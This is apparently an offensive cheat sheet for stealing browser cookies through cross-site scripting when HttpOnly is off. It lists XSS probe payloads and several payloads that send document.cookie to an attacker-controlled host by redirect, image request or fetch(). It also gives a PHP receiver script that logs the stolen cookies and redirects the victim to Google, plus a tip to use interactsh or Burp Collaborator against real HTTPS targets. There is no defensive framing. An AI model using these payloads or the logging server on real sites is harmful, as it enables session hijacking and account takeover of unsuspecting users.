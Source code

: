 If HttpOnly is of:
```html
"><img src=x onerror=prompt(document.domain)>

"><img src=x onerror=confirm(1)>

"><img src=x onerror=alert(1)>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

Server for recieving cookies:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

**N.B.** Use https://app.interactsh.com/#/ or Burp Collaborator for real word (bc of https)

HTTPS payload
```html
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
if CORS and SOP policy allows ajax-requests:
```html
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
